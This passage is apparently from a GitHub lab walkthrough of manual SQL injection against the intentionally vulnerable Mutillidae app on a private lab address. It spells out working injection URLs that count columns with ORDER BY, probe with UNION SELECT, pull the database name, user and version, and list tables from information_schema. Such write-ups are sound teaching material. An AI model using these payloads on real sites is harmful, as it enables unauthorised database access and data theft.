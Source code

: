 
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/bd2a3e9e-a380-4ccd-a098-4d482d9848d8)


After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/b3f18ae6-ac80-4ac1-9dd7-6eea5afad5dc)


When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/348b5e47-faff-47cc-821b-1aaa83e5a2f5)


 As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/7b35e6b4-d53c-4da7-af33-3284aaffc63a)


 Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/4c3bbb6a-1eeb-4900-91e7-6fe309efc2b8)

 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/6bc758ba-29e9-401c-b9de-41e45b63434a)


 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/ba600c61-549f-4178-88c8-bda48cf4221d)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/4a15b4a4-4a9d-4734-9f4f-0de4b90080c5)
